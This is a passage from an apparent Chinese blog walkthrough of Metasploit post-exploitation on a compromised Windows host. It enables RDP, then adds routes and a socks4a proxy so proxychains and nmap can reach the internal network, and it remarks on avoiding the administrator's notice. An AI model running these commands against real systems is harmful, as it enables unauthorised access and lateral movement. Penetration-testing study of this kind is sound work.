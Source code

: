 ```
run post/windows/manage/enable_rdp
```




![](https://img-blog.csdnimg.cn/20191216224340805.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



再次探测发现3389端口已是open状态



![](https://img-blog.csdnimg.cn/20191216224418287.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



尝试3389远程登录该主机，但是弹出如果我们继续登录，则会断开该主机的当前连接。为了不惊动管理员，这里我们不继续连接了。



![](https://img-blog.csdnimg.cn/20191216225653329.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### **添加路由、挂Socks4a代理**



传送门：[MSF搭建socks代理](https://xie1997.blog.csdn.net/article/details/105872076 "MSF搭建socks代理")



*   添加路由的目的是为了让我们的MSF其他模块能访问内网的其他主机

*   添加socks4a代理的目的是为了让其他软件更方便的访问到内网的其他主机的服务



注：添加路由一定要在挂代理之前，因为代理需要用到路由功能



```
#添加路由      
route add 0.0.0.0 0.0.0.0 1      
run print       
#添加socks4a代理      
use auxiliary/server/socks4a      
run      
#然后打开/etc/proxychains.conf，加入下面一行      
socks4 0.0.0.0 1080       1
#然后就可以使用nmap了      1
proxychains nmap -p 21 -Pn -sT x.x.x.x     #在打开其他程序前加上proxychains
```




![](https://img-blog.csdnimg.cn/20191217234139904.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20191217234320257.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)
